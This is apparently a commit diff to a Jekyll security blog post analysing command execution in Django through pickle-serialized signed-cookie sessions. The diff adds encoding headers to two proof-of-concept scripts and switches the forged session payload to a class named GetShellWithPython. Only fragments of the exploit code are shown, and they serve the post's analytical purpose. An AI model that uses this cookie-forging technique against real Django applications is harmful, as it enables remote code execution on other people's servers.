

Before and after one commit to huntpig/rickgray.github.io, a Jekyll site: the page built from _posts/2015-09-12-django-command-execution-analysis.md, in a window 1280 px wide and 900 px high, scrolled down 8066 px. Shown: the whole window, without its empty margins (199-1280 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

Commit message:
修改 示例代码错误

```diff
--- a/_posts/2015-09-12-django-command-execution-analysis.md
+++ b/_posts/2015-09-12-django-command-execution-analysis.md
@@ -232,6 +232,7 @@
 示例 PoC 如下：
 
 {% highlight python %}
+# coding: utf-8
 from django.contrib.sessions.serializers import PickleSerializer
 from django.core import signing
 from django.conf import settings
@@ -274,6 +275,7 @@
 下面再给出一 PoC 用以 GetShell：
 
 {% highlight python %}
+# coding: utf-8
 from django.contrib.sessions.serializers import PickleSerializer
 from django.core import signing
 from django.conf import settings
@@ -297,7 +299,7 @@
 
 
 sess = signing.dumps(
-    obj=CreateTmpFile(),
+    obj=GetShellWithPython(),
     serializer=PickleSerializer,
     salt='django.contrib.sessions.backends.signed_cookies'
 )
```
